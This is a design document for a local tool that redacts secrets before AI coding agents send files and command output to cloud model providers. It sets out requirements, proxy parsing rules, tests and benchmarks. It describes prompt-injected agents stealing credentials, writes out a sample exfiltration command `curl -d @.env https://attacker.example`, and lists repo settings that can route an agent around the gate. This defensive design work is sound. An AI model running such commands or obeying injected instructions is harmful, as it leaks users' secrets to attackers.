


# Harpocrates Guard: Design Doc

Sep 25, 2026 · @Josh

## Decision

Build **Harpocrates Guard**: a local security boundary that stops secrets from leaving your machine through AI coding agents (Claude Code, Codex). Ship v1 by Nov 23, 2026, then use its audit log as one telemetry source for a grounded ThreatChain lab in a separate repo.

This is neither my earlier proposal nor ChatGPT's roadmap as written. It takes the best of each:

- **From ChatGPT's roadmap:** finish Harpocrates first, keep detection deterministic with AI in a supporting role, and connect projects into one story instead of eight repos.
- **From my proposal:** one finished flagship with real eval numbers and an adversarial red-team section, scoped to what one student can ship during recruiting season.
- **From your idea:** the redacting read tool. It turns Harpocrates from a commit-time scanner into a data-loss-prevention (DLP) boundary around AI agents, which is exactly where the security industry is moving.

Why this beats starting the Mini-EDR first:

1. **It's 60% built.** The Rust core, ONNX runtime, and MCP server exist on side branches. The fastest path to a finished, impressive repo runs through them.
2. **Your resume already claims it.** Recruiters will click github.com/Skipa776. The repo has to match the resume before you apply widely.
3. **It teaches the core principles of security engineering directly:** complete mediation, fail-safe defaults, threat modeling, and adversarial evaluation (see Principles).
4. **It can stand out.** Redaction proxies already exist (see Market and differentiation), so the idea alone isn't new. What stands out is measured evidence: leakage, evasion, and utility results, including against competing tools.
5. **It serves your consumer motivation.** Like REFLEX, it protects individual developers, not just enterprises.

The Mini-EDR and ThreatChain work still happens, in a separate lab repo, grounded in real telemetry.

## Problem

AI coding agents read files and run commands, then send the results to a cloud LLM. Any secret they touch leaves the machine. Nothing in the default setup stops that.

Typical paths a secret takes to the cloud:

- The agent opens `.env`, `config.yaml`, or `~/.aws/credentials` to debug a connection error.
- The agent runs `cat`, `grep`, `env`, `git log -p`, or a test that prints a connection string. The output becomes a tool result sent upstream.
- A secret appears in a stack trace, a log file, or a diff the agent summarizes.
- A prompt-injected agent deliberately reads and encodes a secret, for example from instructions hidden in a README or issue.

Harpocrates today works at commit time. By then the secret has already been sent to the LLM provider during the session. Guard moves the check to the point where data leaves the machine.

## Market and differentiation

A local proxy that redacts secrets before an AI agent calls a cloud model is not new. Harpocrates must differentiate on detection quality, agent coverage, fail-closed guarantees, and published evidence, not on the idea itself.

**Verified comparable tools** (checked Sep 27, 2026)

| Tool | What it does | Relevant gaps it documents |
| --- | --- | --- |
| [RedactProxy](https://github.com/CSPF-Founder/redactproxy) | Go proxy for the Anthropic Messages API; stable fake values out, real values restored in responses; built for pentest engagements | Regex only; encoded data passes; the `system` field and HTTP headers are never scanned; signed thinking blocks can't be rewritten; OpenAI-format agents like Codex aren't supported |
| [claude-code-redact](https://github.com/paroque28/claude-code-redact) | Python proxy plus hooks; regex, entropy, context rules, optional NLP for personal data; un-redacts responses | Notes that Claude Code hooks can't modify Read or Grep output, which confirms the proxy approach |
| [Agent Quarantine](https://github.com/spacegiyou/agent-quarantine) | Rust command firewall using shims on `PATH`, with a `preflight` command for repos | Absolute-path binaries bypass the shims; not a sandbox |
| Claude Code and Codex built-in sandboxing | Operating-system level file and network isolation | Guards execution, not the content sent to the model |

The other projects in the ChatGPT review (leak-guard, llm-guard, Stroq, Cerberus, Airlock, mcpwall, mcp-scan) were not checked here. Verify each before citing it.

**What Harpocrates does differently**

1. **Contextual ML detection with published accuracy.** The tools above use regex and entropy only. Harpocrates adds a trained classifier for ambiguous candidates and decodes base64, hex, and URL encoding before rescanning.
2. **Multiple harnesses.** Designed to parse Anthropic Messages, OpenAI Responses, and OpenAI Chat Completions, covering Claude Code, Codex, OpenCode, and Copilot's bring-your-own-key mode.
3. **No placeholder restoration by default.** Competitors swap real values back into responses. That lets a prompt-injected model aim a placeholder at an attacker's server and have the proxy fill in the real secret. Harpocrates doesn't restore by default (see Key design decisions).
4. **Fail closed and scan everything,** including the `system` field and history, with an explicit policy for content that can't be rewritten.
5. **Head-to-head evidence.** The same leakage, evasion, and utility benchmarks run against competitors, with results published either way.

**Research question:** How reliably can a local reference monitor prevent realistic credential leakage from AI coding agents without materially reducing task performance?

**Anti-bloat rule:** a feature belongs in Harpocrates only if it answers one of two questions. "What am I about to send to the model?" (Guard) or "What am I about to run from this untrusted repo?" (Preflight). Everything else is delegated: Socket and OSV for packages, the agents' own sandboxes for isolation, GitHub secret scanning for hosted repos.

**Product principles**

- Local-first: no account, no cloud service, no uploaded code or telemetry.
- Quiet when safe: nothing visible during normal work.
- Explain every block with concrete evidence: the secret type and where it came from, never an opaque score.
- Deterministic enforcement: no cloud LLM decides what is allowed. An LLM may help explain findings.
- Easy but explicit overrides: `harpo allow --once`, always logged.
- Publish failures: known bypasses, unsupported transports, and unprotected channels.
- Claim carefully: say "we did not find an open-source tool in our review that combines these properties," never "nothing else does this."

## Goals and non-goals

**Goals**

1. Zero known-format canary secrets reach the LLM provider in the test harness, across every read path the agent has (read tool, shell, grep, git, MCP tool results).
2. Keep agents useful: task resolve rate within 3 percentage points with Guard on versus off, shown by an equivalence test.
3. Add less than 50 ms p95 latency per LLM request.
4. Fail closed: if the scanner crashes or times out, the request is blocked, not forwarded unscanned.
5. Never store or log a plaintext secret, anywhere, including Guard's own logs.
6. Full protection for Claude Code and Codex in v1 (OpenCode and Copilot if M3 has room), clearly labeled partial support elsewhere, and setup under 5 minutes.
7. Publish a reproducible benchmark and an evasion test suite with the results.

**Non-goals (v1)**

- Stopping a fully compromised agent from exfiltrating through other channels, such as `curl` to an attacker's server. That needs network sandboxing; Guard documents it as residual risk.
- General PII detection (names, SSNs). Possible later extension.
- Protecting against a malicious local user. The user owns the machine.
- Guaranteeing zero leakage of novel or unusually formatted secrets. Guard reduces risk and measures what gets through.

## Scope boundary

Guard v1 protects one boundary: data leaving the machine toward the configured LLM provider. Detecting a malicious agent exfiltrating through any other channel is out of scope for the product. It belongs to a behavior sensor built in the separate lab repo.

**Why redaction can't stop a malicious agent.** The model doesn't need to see a secret to steal it. A prompt-injected agent can issue `curl -d @.env https://attacker.example` and the file moves directly from disk to the attacker. The secret never enters the model's context, so the egress gate never sees it. Stopping that needs a different mechanism: watching tool calls, file access, and network destinations. That is agent behavior monitoring, closer to an EDR than to data loss prevention.

| Question | Guard v1 | Behavior sensor (lab repo) |
| --- | --- | --- |
| What it asks | Does this provider-bound request contain a secret? | Did the agent access sensitive data, then act in a way consistent with exfiltration? |
| Injected agent echoes a secret in its reply | Covered: the gate redacts it before the provider sees it | Also logged |
| Injected agent runs `curl`, DNS tricks, or writes a secret into a public PR | Not covered; documented residual risk | Covered: sensitive read, then encoding, then new outbound destination |
| Mechanisms | Detection, redaction, fail closed | Event correlation, sequence rules, network and process telemetry |

**v1 prepares for the lab without building it.** Every Guard event carries `session_id` and `event_type` (`secret_read`, `secret_redacted`, `request_blocked`, `tool_invoked`). The gate can log each tool call the model requests, since it already parses responses. No provenance tracking, taint propagation, or correlation in v1.

**Lab documentation:** when the behavior sensor starts, it gets its own threat model, requirements, and evaluation plan, not an appendix to this doc.

## Requirements

Every requirement has an ID, a milestone, and a test that proves it. Reference IDs in commits, pull requests, and tests (for example `test_fr_gate_03_fail_closed`).

**Scope clarification:** Guard does not wrap or replace the agent's shell tool. A shell can read a file in unlimited ways, so wrapping it can never be complete. The read tool handles normal file reads with file context. The egress gate covers everything else, including shell output, on its way to the provider.

**Core detection (harpo-core)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-CORE-01 | Detect secrets through regex, then entropy, then the ONNX model, in one Rust library with Python bindings | Existing Python test suite passes against the Rust core on main | M0 |
| FR-CORE-02 | Label each finding with a secret type: cloud key, API token, database credential, private key, password, generic | Per-type precision and recall reported | M1 |
| FR-CORE-03 | Output a calibrated confidence score from 0 to 1 | Calibration curve and expected calibration error published | M1 |
| FR-CORE-04 | Decode base64, hex, and URL-encoded strings, then rescan the decoded content | Evasion suite cases for each encoding pass | M3 |
| FR-CORE-05 | Scan streamed input in chunks with a configurable size cap | 100 MB input scanned without exceeding memory cap | M2 |
| FR-CORE-06 | Separate thresholds per layer: recall-favoring for the gate, precision-favoring for commits | Thresholds set in config; both documented with their precision and recall | M1 |
| FR-CORE-07 | Candidate and feature extraction run in time linear in line length, so a 100k+ character line (minified JS, inline base64) cannot stall a scan or a hook call | `test_fr_core_07_*`: a long minified line scans within a fixed time bound, including runs of whitespace, `#` and `/`, on every path including `--explain` and MCP `include_contributions`; findings snapshot unchanged | R0 |


**FR-CORE-05 spec** (Oct 21, 2026; scope, cap and engines decided by Josh the same day).

- **Inputs.** Files given to `harpo scan` and folder scans, on both engines; the read tool (`safe_read`, `safe_grep`); and the hook's file check. Piped input is not in scope.
- **The cap is memory, not file size.** `--max-size N` (MB, default 64) bounds what one file's scan holds in memory. Any file is scanned whole: never cut short and never skipped for its size. Before this, a single file over 10 MB was scanned only to 10 MB, silently, so a secret after that point was missed with exit 0; on Oct 21 that became an error (exit 2), the same as a folder scan, until this streaming lands.
- **Streaming unit: lines.** Both engines match line by line, so a file is read through a bounded line reader. A line longer than the chunk size (a quarter of the cap) is cut into pieces that overlap by 64 KiB, longer than any token the regex and entropy tiers match, and a finding seen in two pieces is reported once. Line numbers and columns stay those of the file.
- **Model tier (Python).** Candidates come from the streaming pass; a second pass keeps only the context lines the verifier reads around each candidate (already cropped to a window around the token, FR-CORE-07).
- **Rust engine.** The same reader in Rust (`BufRead` with a bounded line read), so it keeps its speed (2.3 s per 100 MB, Oct 21) without reading the file into memory (108 MB peak for a 100 MB file, Oct 21).
- **Read tool and hook.** Two streaming passes: the first collects the secret values (a chunk is never cut inside a private-key block; a block larger than the chunk fails closed), the second replaces them and keeps only the lines asked for. Without a line range, `safe_read` of a file over 10 MB is refused with a message asking for one: the agent cannot use a 100 MB tool result. The hook checks a file of any size within its 25-second budget and refuses it, as now, when the budget runs out.
- **Acceptance.** A 100 MB file on each engine: the scan grows peak memory by less than the cap (measured as peak RSS in a child process), a secret on the last line and one across a piece boundary of a 100 MB single-line file are found once, with the right line number. `test_fr_core_05_*`.
- **As built, Oct 21, 2026.** `cli/Harpocrates/utils/file_utils.py` (`iter_line_pieces`), `cli/Harpocrates/core/detector.py` (pieces, and `verify_file_candidates` for the model's second pass), `core/src/lib.rs` (`LinePieces`, `scan_reader`; protocol version 2), `cli/Harpocrates/read.py` (`file_chunks`, `large_values`) and `hooks.py` (`_chunked_types`). The read tool's chunks are a sixteenth of the cap (4 MiB at 64 MB), since redaction copies the text; a line or key block longer than twice that is refused (`TooLargeToScanError`, deliberately not a `ValueError`, which the hook reads as binary). Files up to 10 MB keep the whole-file read path unchanged. Two differences from a whole-line scan, both on lines longer than a piece only (16M characters at the default cap): the entropy tier runs per piece, so such a line can give more candidates for the model, never fewer regex findings; and the block-comment flag is tracked per piece. The MCP `scan_file` tool keeps its 10 MB limit, so a tool call stays short, but now refuses a larger file instead of scanning its first 10 MB.
- **Evidence, Oct 21.** The findings of the old and new detector are identical, with and without the model, on all 419 text files of the repo (624 findings, 159 after the model). On a 2.3M-character line with 16 planted canaries, several across piece boundaries, every regex finding has the same type, line and offset as in a whole-line scan. 100 MB file: Rust 2.9 s with a 16 MB peak (108 MB before); Python 65 s with no measurable growth. The Rust tests compare a file scan at the smallest cap with a scan of the whole text.

**Read tool (harpo-read)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-READ-01 | MCP tools `safe_read` (with line ranges) and `safe_grep` that return redacted content | Canary repo read with 0 canaries in tool output | M1 |
| FR-READ-02 | Typed placeholders `<<HARPO:type:hash4>>`, identical for the same secret within a session | Same secret in two files gets the same placeholder | M1 |
| FR-READ-03 | Setup docs and config for each Full-tier harness that deny the built-in read tool on sensitive paths and route reads to `safe_read` | Fresh machine setup in under 5 minutes, verified by someone else | M1 |
| FR-READ-04 | A built-in edit (Edit, MultiEdit, Write, NotebookEdit) that would add a placeholder to a file is denied with a visible reason, in every mode. Reworded from "warn" (Josh, Oct 21, 2026), matching what shipped with FR-READ-06. A placeholder written by a shell command is not checked; that is a documented gap | FR-READ-06's placeholder tests: an edit that adds a placeholder is denied, granted or not | M2 |
| FR-READ-05 | The read hook lets through user-allowlisted paths (`harpocrates allow`, each use logged) and name rules (`allow --name graphify-out`: any path whose resolved real path has a component with that exact name, in every project; names are compared NFKC- and case-folded, secret-store, system and home-path names are refused, broad or secret-sounding ones such as `src` or `secrets` need `--yes`, and a name rule never opens a dot-directory of the home folder or `~/Library`, decided by file identity); `allow --remove` and `--list` manage the list, `--json` gives plugins a stable output; the agent can't edit or call any of it. Copy, move, link and archive commands (`cp -r DIR dst`, `tar`, `zip`, `ditto`) scan their directory arguments like a recursive search, and UTF-16/32 text is decoded and scanned instead of passing as binary. (The prompt this row first gave other secret-bearing reads moved to edits in FR-READ-06.) | Allowlisted path or name passes and is logged; a link named like a rule that points elsewhere, a hard link and a secret-store name are still refused; an allowlist change by the agent is refused | M1 |
| FR-READ-06 | Reads never prompt: a built-in Read, content Grep or Bash call that would expose a secret-bearing file is refused with a pointer to `safe_read` / `safe_grep`, in every mode (allowlisted paths still pass). On Claude Code with `--ask`, an Edit, MultiEdit, Write (existing file) or NotebookEdit of such a file asks the user once, naming the file and its secret types. The hook records the call as pending under the session and tool-use id; `python -m Harpocrates.hooks --post` (PostToolUse, PostToolUseFailure, SessionEnd) turns it into a grant only once the tool has run, so a No never grants. The grant (`~/.harpocrates/grants/<session_id>.json`, 24 h expiry, deleted at SessionEnd) covers that one real path for the same session, for built-in Read, content Grep and edits; never Bash, never a directory. No session or tool-use id, or no human to ask (bypass modes), means refusal. An edit whose new content holds a placeholder is denied in every mode, granted or not. Trade-off: Yes sends the file's values to the provider as-is. Residual: a script that writes the grants file itself can forge a grant (the allowlist's script gap) | Read of a secret file in `--ask` mode is denied, not asked; an Edit of one asks with the exact reason and writes a pending entry; the matching Post grants that path to that session only (not another session, another path, or Bash); an unknown id, an interrupt, a corrupt file or a grant over 24 h old grants nothing; SessionEnd removes the file; a placeholder in new content is denied even when granted | M1 |

**Egress gate (harpo-gate)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-GATE-01 | Localhost proxy that the agent's API base URL points to; forwards over TLS to the real provider | Agent completes a normal session through the proxy | M2 |
| FR-GATE-02 | Written parser spec per provider format (Anthropic Messages and OpenAI Responses in v1; OpenAI Chat Completions when the Copilot adapter ships) covering text, tool calls, tool results, and system prompts | The Gate design decisions table below, `docs/gate-transport.md`, and the `test_fr_gate_02_*` corpus tests for every content-block type. Repointed from "spec in `docs/`" (Josh, Oct 21, 2026): the parser spec is kept locally | M2 |
| FR-GATE-03 | Fail closed on scanner error, timeout, or unparseable request. No override in v1 (Oct 20, 2026: a switch that forwards unscanned is the fail-open state the gate exists to prevent; a scanner failure blocks until restart or downgrade) | Killed scanner, timeout, and malformed request all blocked | M2 |
| FR-GATE-04 | Scan the full request each turn, including history, not only the newest message | Secret planted in turn 1 history is redacted in turn 5 | M2 |
| FR-GATE-05 | Deterministic placeholders so the unchanged start of each request stays identical and provider prompt caching still works | Cache hit rate with Guard on within 5 points of Guard off | M3 |
| FR-GATE-06 | Stream responses back to the agent unchanged (server-sent events) | Streaming works end to end in both agents | M2 |
| FR-GATE-07 | Defined policy for images and PDFs in requests: block, pass with warning, or OCR; default is pass with warning in v1 | Policy documented and tested | M2 |
| FR-GATE-08 | User-approved allowlist by path or secret hash, every use logged | Allowlisted secret passes; log entry exists | M3 |
| FR-GATE-09 | Confirm the transport each agent uses (HTTP, server-sent events, WebSocket) and support it | Transport notes in `docs/`; both agents work | M2 |
| FR-GATE-10 | Content the gate can't rewrite. Signed thinking and redacted-thinking blocks are dropped from every request, which the API allows, so nothing unredacted in them is forwarded and the session survives. Other unrewritable content (encrypted reasoning, provider-signed readable text) that holds a detected secret blocks the request with a clear message. Trade-off (Josh, Oct 19, 2026): dropping thinking costs the model its earlier reasoning in later turns; blocking would end the session | A secret planted in a signed thinking block never reaches the mock provider and the request still succeeds; a secret in encrypted reasoning triggers a block with a clear message | M2 |
| FR-GATE-11 | Secrets base64-encoded inside text fields. Long base64 runs (24 or more characters, standard or URL-safe, wrapped or split by whitespace or escapes) in every rewrite and scan-only text field are decoded at every alignment; the text in each decoding (UTF-8 or UTF-16) is scanned, and a finding blocks the request with a clear message; more than 2 MiB of runs in one request blocks too. Trade-off (Josh, Oct 20, 2026): a benign encoded text that trips the detector blocks instead of being redacted; secrets inside encoded binary, compressed or double-encoded data still pass | A secret in an MCP resource blob that Codex sends as JSON text, and in a base64 run in any text field, triggers `HARPO-BLOCK-ENCODED-SECRET`; binary, random and clean encoded runs pass unchanged | M2 |

**Gate design decisions (approved by Josh, Oct 19, 2026).** These bind the gate's implementation. They were recorded in the request parser spec, which has been kept locally since Oct 21; they are restated here so the public spec is complete.

| # | Decision |
| --- | --- |
| 1 | `previous_response_id` blocks in v1. Codex over a custom provider does not send it |
| 2 | JSON-in-string tool arguments are parsed, their string leaves redacted, and the redacted strings spliced back into the raw bytes. A clean body is forwarded byte-identical. A secret in a free-form object key blocks the request |
| 3 | No WebSocket in v1: the gate refuses an upgrade with 426, and Codex falls back to HTTP |
| 4 | A secret in provider-signed readable text (`reasoning.summary`, a `web_search_result` title or URL, `cited_text`) blocks, until a live test shows the provider accepts a rewrite |
| 5 | FR-GATE-10: every thinking and redacted-thinking block is dropped from the request instead of blocking it |
| 6 | A credential the user configured for a provider-hosted MCP connector (`mcp_servers[].authorization_token`, the Responses `mcp` tool's `authorization` and `headers`) passes unscanned, with a logged warning naming the field, never the value |
| 7 | The session key lives in memory only (SEC-02). A gate restart breaks prompt caching and thinking for sessions already open; accepted |
| 8 | A secret found for the first time is not redacted in earlier turns, because that would change bytes the provider already saw |
| 9 | Body cap 64 MiB, applied after decompression. v1 buffers the whole body before forwarding |
| 10 | A block is HTTP 400 in the provider's own error shape. The message avoids the phrases Claude Code uses to trigger its own recovery |
| 11 | SEC-03: a new gate token on every `harpo guard up`, written into `ANTHROPIC_CUSTOM_HEADERS` and Codex `http_headers` |
| 12 | Header values other than authentication are scanned; a finding blocks the request |
| 13 | Unknown routes block (fail closed). The Codex features this disables are listed in `docs/gate-transport.md` |
| 14 | The Codex row of the harness table: zstd and WebSocket apply only to the built-in OpenAI provider |
| 15 | Strict parsing: duplicate JSON keys, invalid UTF-8 and nesting deeper than 128 are rejected |
| 16 | Added (Josh, Oct 21, 2026): on Python before 3.14, `zstandard` is a runtime dependency, so a Codex ChatGPT-login session, whose bodies are zstd-compressed, is never blocked for want of a decoder. Python 3.14 has `compression.zstd` |

**Commit gate, logging, and setup**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-COMMIT-01 | Pre-commit hook and CLI scan staged changes and full git history | Planted historical secret found | M0 |
| FR-COMMIT-02 | SARIF output and a GitHub Action that uploads findings to code scanning | Findings visible in a demo repo's Security tab | M3 |
| FR-LOG-01 | JSONL audit log, one line per finding: time, layer, type, keyed hash prefix, source, action, session ID | Log schema test; grep of logs finds no canary values | M2 |
| FR-LOG-02 | Log fields follow a subset of OCSF so later components can consume them | Field mapping documented | M3 |
| FR-UX-01 | One command, `harpo guard up`, starts the gate; per-harness setup is covered by FR-INSTALL | Demo video shows setup from scratch | M3 |

**Non-functional and security**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| NFR-01 | Added latency under 50 ms p95 per follow-up request. The first request of a session (cold cache) has its own target: under 500 ms p95 for bodies up to 1 MB, set (Josh, Oct 21, 2026), to revisit after the FR-SERVE-01 profile | Latency benchmark in CI | M3 |
| NFR-02 | Task resolve rate within 3 points with Guard on vs off | Utility benchmark method below | M3 |
| SEC-01 | Never store or log a plaintext secret | Automated grep of all logs and temp files after the canary run | M2 |
| SEC-02 | HMAC with a random in-memory per-session key for placeholders and logs | Code review plus a test that keys differ across sessions | M1 |
| SEC-03 | Proxy binds to 127.0.0.1 only and requires a per-session token header | Request without the token rejected | M2 |
| SEC-04 | Fuzz the request parser | cargo-fuzz target runs in CI for a fixed time budget | M3 |
| SEC-05 | Pinned dependencies, config checksum at startup, and a `SECURITY.md` | Files present; tampered config refused | M3 |
| SEC-06 | Document residual risks: other exfiltration channels, agent transcripts saved to local disk with raw tool output, and agent traffic that bypasses the API base URL (such as feature flags and token refresh) | Threat model doc lists all three | M1 |
| SEC-07 | Every model artifact the package loads ships in the wheel and is hash-checked against the manifest before use; a missing or mismatched artifact is refused, never loaded | `test_sec_07_*`: tampered `xgboost_model.json` refused; wheel install contains every artifact in the manifest | R0 |
| SEC-08 | The hook trusts no environment variable for anything security-relevant: the state directory comes from the password database (`pwd.getpwuid(os.getuid()).pw_dir`), not `$HOME`, and the hook interpreter runs with `-I`, so `PYTHONPATH`, `PYTHONSTARTUP` and user site-packages cannot load code into it | `test_sec_08_*`: a planted `HOME` neither moves the state directory nor disarms the guard; a planted `PYTHONPATH` package never runs in the hook | R0 |
| SEC-09 | The state-directory guard has no known bypass that does not build the path at run time. After migration there is no fallback to `~/.harpocrates`, and an unusable `~/.harpo` means an empty allowlist. Any home component starting with `.harpo` is guarded. `cd`/`pushd` into either directory is refused. Hard links to state files are refused. Every path key of a tool call is checked. The migration opens the source with `O_NOFOLLOW` | `test_sec_09_*`: one test per bypass found in the Oct 18 security review (F3 to F8), each failing before its fix | R0 |
| SEC-10 | A repo cannot route an agent around the gate. When the install record says the gate is on, the hook compares the effective Claude Code base URL with the gate's (`http://127.0.0.1:<gate port>` from `~/.harpo/install.json`; `localhost`, `127.0.0.1` and `[::1]` are the same host, the port must match, the path must be empty). It reads, in Claude Code's precedence order, the `ANTHROPIC_BASE_URL` in its own environment and in `env` of `<repo>/.claude/settings.json`, `<repo>/.claude/settings.local.json` and `~/.claude/settings.json`. `CLAUDE_CODE_USE_BEDROCK=1`, `CLAUDE_CODE_USE_VERTEX=1`, and an `ANTHROPIC_CUSTOM_HEADERS` without the gate token also count as a bypass. On a mismatch, every tool call in that session is refused automatically with a plain message naming the setting file. Nothing waits for an answer: no prompt, no ask. One desktop notice per session is informational only. With no gate installed, nothing changes. Codex: a fixture confirms project-level provider keys are ignored. `harpo doctor` fails and names each override (FR-PROOF-05). Found in G2 (T2, Oct 19, 2026); approved by Josh the same day | `test_sec_10_*`: one fixture repo per override source gets every tool call refused with no interaction; an unaffected repo and a machine without the gate are unaffected; the Codex project-provider fixture is ignored; `harpo doctor` fails on each fixture | M2 |

**Documentation and data**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| DOC-01 | README first screen: one-sentence pitch, demo GIF, results table, architecture diagram, 3-line quickstart | Reviewed by someone outside the project | M3 |
| DOC-02 | Dataset provenance and license for all training and benchmark data | `docs/data.md` exists | M0 |
| DOC-03 | Published known-bypass list | `docs/bypasses.md` exists and matches the evasion results | M3 |

**Testing**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| TEST-01 | Line coverage of the shipped package (`cli/Harpocrates`, excluding the untracked local training code) is measured in CI and fails below a floor. The floor starts at 90% (measured 92.9% on Oct 18, 2026, Apple M3 Pro) and rises toward the measured value as gaps close. It is never lowered without a trade-off note | The CI unit job fails a change that drops coverage below `fail_under` in `pyproject.toml` | R0 |
| TEST-02 **(proposed; not approved on Oct 21, 2026)** | Every requirement ID from a finished milestone has at least one test whose name contains the ID (lowercase, `-` as `_`), or a named non-test acceptance artifact (a report or doc) | `scripts/check_req_tests.py` lists IDs without one; CI fails on any ID from a finished milestone | R0 |
| TEST-03 (approved (Josh, Oct 21, 2026)) | End-to-end tests for the critical flows, run in CI against an installed wheel in a fixture home directory: (a) an agent read of a canary file is refused and `safe_read` returns placeholders; (b) the pre-commit hook blocks a staged canary; (c) `install`, then a hook call, then `uninstall` restores every settings file byte-identical | One `test_test_03_*` integration test per flow, all passing in CI | R0 |
| TEST-04 (approved (Josh, Oct 21, 2026)) | Josh verifies every test. Each pull request lists its new and changed tests by requirement ID, and Josh ticks each one before merge | Pull request template has the checklist; no merge with an unticked test | R0 |

**R0 rename, cleanup and docs**

Restated Oct 21, 2026 from the R0 spec notes, which have been kept locally since Oct 21, so that the IDs cited in code, tests and `pyproject.toml` are defined in the repo. The FR-NAME, DOC-DOCSTRING and DOC-DEMO rows condense the approved notes without changing them. The FR-CLEAN rows were never written out as rows; they were reconstructed from how the IDs are used and confirmed (Josh, Oct 21, 2026).

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-NAME-01 | User-facing text says Harpo: README, docs, CLI help and errors, and the MCP server name `harpo`. The tool names `safe_read` and `safe_grep` do not change, so installed deny and allow rules keep working | `test_fr_name_01_*` | R0 |
| FR-NAME-02 | Console scripts `harpo` and `harpo-mcp`. `harpocrates` and `harpocrates-mcp` stay, print one deprecation line on stderr, then run the same entry point | Both names run the same CLI test suite (`test_fr_name_02_*`) | R0 |
| FR-NAME-03 | Distribution `harpo-scan`; `harpocrates` on PyPI becomes a shim that depends on it (see Key design decisions) | Recorded in this doc. Publishing waits for the release | R0 |
| FR-NAME-04 | State folder `~/.harpo`, copied (not moved) from `~/.harpocrates` on first use; `HARPO_*` variables are read first, then `HARPOCRATES_*` | `test_fr_name_04_*`; security points are under SEC-08 and SEC-09 | R0 |
| FR-NAME-05 | `.pre-commit-hooks.yaml` has `id: harpo` and keeps `id: harpocrates` | Both ids run in a fixture repo (`test_fr_name_05_*`) | R0 |
| FR-NAME-06 | The placeholder `<<HARPO:type:xxxx>>` does not change | Existing tests pass unchanged (`test_fr_name_06_*`) | R0 |
| FR-NAME-07 | The GitHub repo is renamed last, after the release | Link check over every URL Harpo prints | R0, waits for the release |
| DOC-DOCSTRING-01 | Every function and class in an enforced module has a docstring with `Description:`, `Parameters:` and `Output:`, in that order. The enforced list is `[tool.harpo.docstrings]` in `pyproject.toml` and grows one module per commit | `python scripts/check_docstrings.py --enforce` in CI; `test_doc_docstring_01_*` | R0 |
| DOC-DEMO-01, DOC-DEMO-02 | Two README demos rendered from the tapes in `docs/tapes/` on seed-0 canaries, never real secrets: `harpo scan` beside gitleaks, and a refused Read followed by `safe_read`. Each GIF is 20 s or less and 5 MB or less, with alt text and a transcript | The Docs demos workflow re-renders both and runs `scripts/check_demo_gifs.py`; `test_doc_demo_01_*` | R0 |
| FR-CLEAN-01 | A cleanup review lists every untracked, moved or edited file with its evidence | The cleanup report (kept locally since Oct 21) | R0 |
| FR-CLEAN-02 | The cleanup changes no finding: every remaining test passes and the findings snapshots match the BEFORE snapshot byte for byte | `bench/results/r0-before/` and its `tools/run_all.sh` | R0 |
| FR-CLEAN-03 | A cut that touches a security surface (redaction, the state folder, the hook) needs Josh's sign-off before it lands | Sign-off recorded in the cleanup report | R0 |
| FR-CLEAN-04 | Lines of code are counted before and after the cleanup | `bench/results/r0-before/tools/loc.py` | R0 |

## Roadmap after R0: proof, serving, learning, lifecycle, service and detections

Added Oct 18, 2026, from Josh's milestone plan. Targets marked **(proposed)** are starting points for Josh to confirm or change. Once a target is confirmed, it may be loosened only with a written trade-off note, never silently. Rows marked **(Josh writes)** are the five parts Josh implements by hand. **M8 is deferred** (Josh, Oct 18).

### Baseline (v17, detector 1.2)

Every target below is measured against these numbers. Re-measured Oct 18, 2026 on an Apple M3 Pro (12 cores, 18 GB), Python 3.12.12. Raw results are in `bench/results/r0-before/`.

| Metric | Gate threshold (0.1904) | Commit threshold (0.5559) | Source |
| --- | --- | --- | --- |
| Benchmark recall / precision | 94.96% / 90.41% | 93.94% / 94.36% | `model_config.json`, re-measured identical |
| OSS test recall / precision | 99.33% / 94.54% | 98.73% / 97.11% | `model_config.json`, re-measured identical |
| Candidate AUC, benchmark / OSS | 0.9856 / 0.9996 | same model | `model_config.json` |
| ML alarms per 1,000 real files, 16 validation repos | 56.8 | 14.9 | README |

| Speed | Oct 16 reference (v1.3.0) | Oct 18 re-measure, median / p95 |
| --- | --- | --- |
| Model inference, one candidate | 0.013 ms | 0.0073 / 0.0082 ms |
| Model inference, batch of 256 | 2.0 ms | 0.41 / 0.49 ms |
| Hook call, clean file | about 90 ms | 68 / 107 ms |
| Hook call that loads the model | 230 to 280 ms | 171 / 212 ms |
| Bare Python start (`python -c pass`) | n/a | about 12 ms |

### Do not build

| Not built | Why |
